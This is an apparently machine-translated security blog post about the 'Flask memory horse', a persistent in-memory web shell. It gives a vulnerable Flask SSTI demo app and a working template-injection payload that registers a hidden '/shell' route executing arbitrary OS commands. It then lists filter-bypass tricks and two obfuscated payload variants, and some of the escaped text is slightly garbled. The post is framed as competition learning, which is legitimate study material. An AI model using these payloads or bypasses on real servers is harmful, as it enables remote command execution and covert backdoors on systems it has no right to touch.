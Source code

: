 # Python safe learning—Flask memory horse

Author: H3rmesk1t

This article was first published in [Prophet Community] (https://xz.aliyun.com/t/10933)

## Preface
When I was offline in Anxun Cup, there was an AWD question injected with the `Python SSTI` template. Since I had never been exposed to the offensive and defensive points about `Python` before, I was once planted by someone else. I haven't even discovered the `Python memory horse`. After I found that the patched question was hit in the game, I checked the traffic record and realized that the attacker used the `Flask` ​​memory horse to hit it. I have seen the general idea before but haven't learned it. I will record the relevant knowledge points here for the time being.

## concept
Commonly used Python frameworks include Django and Flask, both of which may have `SSTI` vulnerabilities. The `Python memory horse is implemented using `SSTI` injection in the `Flask` ​​framework. In the `Flask` ​​framework, `render_template_string` is used for rendering in the `web` application template rendering, but the code transmitted by the user is not filtered, resulting in the user being able to inject malicious code to implement the `Python` memory horse injection.

## Flask request context management mechanism
When a web page request enters `Flask`, a `Request Context` will be instantiated. There are two contexts in `Python`: request context (request context) and application context (session context). A request context encapsulates the request information, and the structure of the context uses a `Stack` stack structure, that is, it has all the characteristics of a stack. After instantiation of `request context`, it will be pushed to the stack`_request_ctx_stack`. Based on this feature, the current request can be obtained by obtaining the top element of the stack.

## Vulnerability Environment
First write a `SSTI-Demo` using `Flask`:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def hello_world(): # put application's code here
    person = 'knave'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)


if __name__ == '__main__':
    app.run()
```

Original `Flask`Memory Horse`Payload`:

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

Command execution result:

![](./images/1.png)

![](./images/1.png)

## Payload Analysis
Disassemble the previous `Payload` and analyze it layer by layer.

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell',
        'shell',
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

For the `url_for.__globals__['__builtins__']['eval']`, `url_for` is a built-in function of `Flask`. The `__globals__` property can be called through the `Flask` ​​built-in function. This special property can return all variables in the module namespace where the function is located, including many `modules` that have been introduced. You can see that `__builtins__` is supported here.

![](./images/3.png)

![](./images/4.png)

In the `__builtins__` module, `Python` directly imports a lot of built-in functions for us when it is started. To be precise, `Python` will first load the built-in namespace when it is started. There are many mappings between names and objects in the built-in namespace. These names are the names of the built-in functions, and the objects are these built-in function objects. It can be seen that in the built-in functions of the `__builtins__` module, there are commands such as `eval`, `exec`, etc. to execute functions.

![](./images/5.png)

```python
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec
', 'exit', 'filter', 'float', 'format', 'frozensset', 'getattr', 'globals', 'hasattr', 'hash', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

Since there is a command execution function, we can directly call the command execution function to perform dangerous operations. `Exploit` is as follows:

```python
{{url_for.__globals__['__builtins__']['eval']("__import__('os').system('open -a Calculator')")}}
```

![](./images/6.png)

Next, let's take a look at the `app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())` Payload. This part is a dynamically adding a route, and the function that handles the route is an anonymous function defined by the `lambda` keyword.

When registering routes in `Flask`, the `@app.route()` decorator was added to implement them. Follow up to check its source code implementation and found that it called the `add_url_rule` function to add routes.

![](./images/7.png)

Follow up on the `add_url_rule` function, and its parameters are as follows:
 - rule: The `URL` rule corresponding to the function, the condition meets the same as the first parameter of `app.route`, and must start with `/`.
 - endpoint: Endpoint, that is, when using `url_for` for inversion, the first parameter passed here is the value corresponding to `endpoint`. This value can also be not specified. By default, the name of the function will be used as the value of `endpoint`.
 - view_func: The function corresponding to `URL`, here you only need to write the function name without adding brackets.
 - provide_automatic_options: Controls whether options methods should be added automatically.
 - options: Options to forward to the underlying rule object.

![](./images/8.png)

`lambda` is anonymous function. The third parameter of the `add_url_rule` function in `Payload` defines a `lambda` anonymous function, where the `cmd` parameter value obtained from the `Web` request is executed through the `popen` function of the `os` library and returns the result, where the parameter value defaults to `whoami`.

Let's take a look at the `'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']}`. `_request_ctx_stack` is a global variable of `Flask` ​​and is an instance of `LocalStack`. Here `_request_ctx_stack` is `_request_ctx_stack` in the `Flask request context management mechanism mentioned above. `app` is also a global variable of `Flask`, which is the current `app`.

At this point, the general logic has been basically sorted out. The function of the `eval` function dynamically creates a route, and then specifies the global namespace of the required variables to ensure that both `app` and `_request_ctx_stack` can be found.

## ByPass
Filtering is often present in practical applications, so it is still necessary to understand how to bypass it.
 - `url_for` can be replaced with `get_flashed_messages` or `request.__init__` or `request.application`.
 - Code executes function replacement, such as `exec`, etc., replace `eval`.
 - The string can be spliced, such as `['__builtins__']['eval']` to `['__bui'+'ltins__']['ev'+'al']`.
 - `__globals__` can be replaced with `__getattribute__('__globa'+'ls__')`.
 - `[]` can be replaced with `.__getitem__()` or `.pop()`.
 - Filtering `{{` or `}}` can be bypassed using `{%` or `%}`. `if` statement can be executed in the middle. This can be used to perform blind-like operations or take-out code execution results.
 - Filtering `_` can be bypassed with encoding, such as `__class__` with `\x5f\x5fclass\x5f\x5f`, and can also be bypassed with `dir(0)[0][0]` or `request['args']` or `request['values']`.
 - Filtered `.` can be bypassed with `attr()` or `[]`.
 - For other techniques, please refer to the `SSTI` method to bypass filtering...

Here are two deformations `Payload`:
 - Original `Payload`

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

 - Deformation`Payload-1`

```python
request.application.__self__._get_data_for_json.__getattribute__('__globa'+'ls__').__getitem__('__bui'+'ltins__').__getitem__('ex'+'ec')("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell', 'calc')).read())",{'_request_ct'+'x_stack':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('_request_'+'ctx_stack'),'app':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('curre'+'nt_app')})
```

 - Deformation`Payload-2`

```python
get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\u0065\u0076\u0061\u006c")("app.add_ur"+"l_rule('/h3rmesk1t', 'h3rmesk1t', la"+"mbda :__imp"+"ort__('o"+"s').po"+"pen(_request_c"+"tx_stack.to"+"p.re"+"quest.args.get('shell')).re"+"ad())",{'\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u006 3\u006b':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\
u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b"),'app':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x 5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0063\u0075\u0072\u0072\u0065\u006e\u0074\u005f\u0061\u0070\u0070")})
```

![](./images/10.png)

## refer to
 - [A brief analysis of Python Flask memory horse](https://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)